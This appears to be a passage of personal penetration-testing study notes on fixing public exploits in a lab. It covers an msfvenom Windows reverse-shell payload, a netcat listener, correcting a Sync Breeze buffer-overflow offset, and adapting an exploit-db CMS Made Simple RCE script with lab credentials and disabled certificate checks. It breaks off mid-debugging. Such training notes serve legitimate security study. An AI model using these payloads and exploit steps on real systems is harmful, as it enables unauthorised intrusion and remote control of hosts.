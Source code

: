            We want to generate our own payload to ensure its safe.
           `msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"` 
                and use our code to replace the old after the NOPS.
           compile for error checking: `i686-w64-mingw32-gcc 42341.c -o syncbreeze_exploit.exe -lws2_32`
        #testing the exploit
            set up `nc -lvnp 443`
            because the exploit is cross-complied on kali to run on windows
                we need to use `wine` which is compatibility layer capable of
                running windows apps on linx, bsd, and MacOS.
                `apt install wine`
                `dpkg --add-architecture i386 && apt-get update && apt-get install wine32`
            then run the exploit `wine syncbreeze_exploit.exe`
            we see that it fails and our `EIP` is which is to our `JMP ESP` at 
                0x9010090c` which is off by 1 byte. we need to fix it.
        #changing the overflow buffer
            [42341_c](42341_c) on line 70, we see the buffer size is set to
                780 and this is the right offset. However, later in line
                112-118, we see that `strcpy` and `strcat` are used to make the
                buffer. In `C` `str`s are ended with a null byte `\x00` so this
                will really make our buffer one `A` short of the offset because
                the 780th place isn't sent the program becuase `C` hits a null byte and doesn't pass it to the app. Simply increase our buffer
                size on line 70 by 1.
            recomplie and run with `wine` to get a shell!!!
    #fixing web exploits
        #considerations
            * Does it initiate an HTTP or HTTPS connection?
            * Does it access a web application specific path or route?
            * Does the exploit leverage a pre-authentication vulnerability?
            * If not, how does the exploit authenticate to the web application?
            * How are the GET or POST requests crafted to trigger and exploit the
            vulnerability?
            * Does it rely on default application settings (such as the web path of
            the application) that may
            have been changed after installation?
            * Will oddities such as self-signed certificates disrupt the exploit?
        #this ex.
            found a linux host with apache2 exposed running CMS Made Simple
                version 2.2.5 running TCP 443. Found post-authentication
                exploit on exploitdb and we had found creds earlyer for this
                box on another one. https://www.exploit-db.com/exploits/44976
        #changing connectivity info
            the var `base_url` is our target and needs to be changed to
                `"https://192.168.203.44/admin"` because we see that CMS is
                running on https and the admin login screen is at `/admin`
            when going to the page we see that the cert isn't validated and my
                be locally signed. `error code: SEC_ERROR_UNKNONW_ISSUER`
            exploit imports the `requests` lib so the exploit talks to the app
                via web requests and sends 3 of them. Line 34 `requests.post`
            to get the exploit to ignore the warning of the self signed cert,
                we can tell it not to verify by adding it to line 34:
                `response  = requests.post(url, data=data, allow_redirects=False, verify=False)`
            the other 2 requests are 55 and 80 and need `verify=False` added
                aswell.
            add the creds we found on line 15,16L `admin:HUYfaw763`
            the payload, line 21, is just running system cmds with the get
                request in plain text so we can use this or change the payload.
            when ran we get an error: 
                File "44976.py", line 24, in parse_csrf_token
                    return location.split(csrf_param + "=")[1]
                    IndexError: list index out of range
                Which says that it tryed to access the 2nd element of a python
                    list that isn't there